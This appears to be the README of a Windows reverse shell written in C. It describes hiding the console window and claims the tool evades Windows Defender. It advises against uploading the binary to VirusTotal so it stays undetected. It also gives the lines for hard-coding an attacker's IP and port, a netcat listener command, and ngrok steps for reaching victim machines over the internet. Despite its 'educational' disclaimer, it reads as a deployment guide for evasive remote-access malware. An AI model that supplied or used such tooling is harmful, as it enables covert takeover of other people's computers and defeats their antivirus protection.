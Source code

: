 # Cshell - Reverse Shell in C

Cshell is a simple reverse shell written in C that connects to a specified IP address and port, allowing an attacker to execute system commands on the victim's machine remotely. This reverse shell leverages the Winsock API on Windows and hides the console window upon execution.
Disclaimer

This project is for educational purposes only.
Use this tool responsibly. Unauthorized access to systems without proper consent is illegal and punishable by law. The author is not responsible for any misuse or damages caused by this program. Make sure you have permission before using this reverse shell on any device or network.

# Important Note:

As of `10/09/2024`, Cshell is undetectable by Windows Defender. However, do not upload the binary or script to sites like VirusTotal, as doing so could lead to its detection being added to antivirus databases, compromising its effectiveness.

# Features

   - Connects to a remote IP address and port over TCP.
   - Executes system commands received from the remote host.
   - Sends the output of the commands back to the remote host.
   - Hides the console window to run silently in the background.
   - Undetectable by Windows Defender as of 10/09/2024.

# How to Compile Cshell

Cshell is designed for Windows and can be compiled using Visual Studio Community Edition. Follow these steps to compile it:
Prerequisites

   1. [Visual Studio Community Edition](https://visualstudio.microsoft.com/vs/community/) (Ensure that the "Desktop development with C++" workload is installed).
   2. [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/) (Should be installed by default with Visual Studio).

# Compilation Steps

   1. Clone or download this repository.
   2. Open the project folder in Visual Studio.
   3. Open the `.sln` (solution) file to load the project.
   4. Edit the `server.sin_addr` line in the source code to hard-code your IP/Hostname and Port:

```c
server.sin_port = htons(4444); // Replace with your port
InetPton(AF_INET, "<IP/Hostname>", &server.sin_addr); // Replace with your IP/Hostname
```

   5. Build the project by selecting Build > Build Solution (or press Ctrl+Shift+B).
   6. The compiled executable will be located in the project's Debug or Release folder.

# Running the Reverse Shell

   1. Host a listener on the specified port. You can use tools like `Netcat` or `Metasploit` to listen for the incoming connection:

```bash
nc -lvnp 4444
```
   2. Replace `4444` with the port you configured in the source code.

   3. Execute the `Cshell.exe` on the target machine. The reverse shell will attempt to connect to the IP address and port hard-coded in the source code.

# Using ngrok for Internet Access

To make the reverse shell accessible over the internet, you can use ngrok to expose a local port to the public internet.

# Steps to Use ngrok:

   1. Download ngrok on linux:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/ngrok
ngrok --version
```
Or follow the official instructions from [ngrok.com](https://ngrok.com/)

2. Expose Your Local Port: Run the following command to expose the listener port (e.g., `4444`) to the internet:

```bash
ngrok tcp 4444
```

3. `ngrok` will give you a forwarding address (e.g., `tcp://0.tcp.ngrok.io:12345`).

3. Edit the Code: Replace the `<IP/Hostname>` in your code with the forwarding address provided by `ngrok` (e.g., `0.tcp.ngrok.io`) and the port with the one provided (e.g., `12345`):

```c
server.sin_port = htons(12345); // ngrok assigned port
InetPton(AF_INET, "0.tcp.ngrok.io", &server.sin_addr); // ngrok forwarding address
```

4. Run Your Listener: Start a listener on the ngrok-exposed port using `Netcat` or any other reverse shell listener tool:

```bash
nc -lvnp 12345
```
5. Run the Shell: Execute the Cshell.exe on the target machine. It will now connect through ngrok, allowing you to get a reverse shell over the internet.

# Security Considerations

Be aware that running reverse shells can expose vulnerabilities in the systems they target. Always secure your systems and use such tools ethically. For more advanced usage, consider implementing encryption or authentication mechanisms to secure the connection.

# License

This project is licensed under the MIT License. See the LICENSE file for more details.
